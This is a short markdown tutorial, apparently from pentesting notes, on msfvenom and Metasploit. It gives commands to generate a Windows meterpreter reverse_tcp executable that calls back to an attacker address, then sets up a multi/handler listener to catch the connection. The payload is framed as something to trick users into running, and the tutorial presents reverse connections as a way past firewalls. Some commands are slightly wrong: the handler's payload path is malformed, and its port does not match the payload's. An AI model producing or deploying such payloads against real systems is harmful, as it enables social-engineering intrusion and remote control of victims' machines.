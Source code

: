 # Msfvenom

Okay, so you have failed to discover any vulnerabilites in the system you are attacking. Fear not, there is still a last resort. Usually the weakest link: **the user**.

With msfvenom we are able to create exploits that we can send to the target, and trick the target to click it. The program will then call our machine.

## Basics

List exploits
```
msfvenom -l
```

Add the `--payload-options` to see the options
```
msfvenom -p windows/meterpreter_reverse_http --payload-options
```





## Create exploit

Here we create a program that will call the attacker machine.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe > payload.exe
```

## Start listening for exploit

So once an exploit is set we need to start to listen for it. We can do that using metasploit.

```
use exploit/multi/handler
```

Set what payload you want for the listening part
```
set payload exploit/meterpreter/reverse_tcp
```

Show options
```
show options
set LHOST 192.168.1.101
set LPORT 8080
exploit
```




This does indeed bypass the firewall. Since the connection is initiated from the inside. A firewall normally (maybe older firewalls) only block incoming, and not outgoing connections.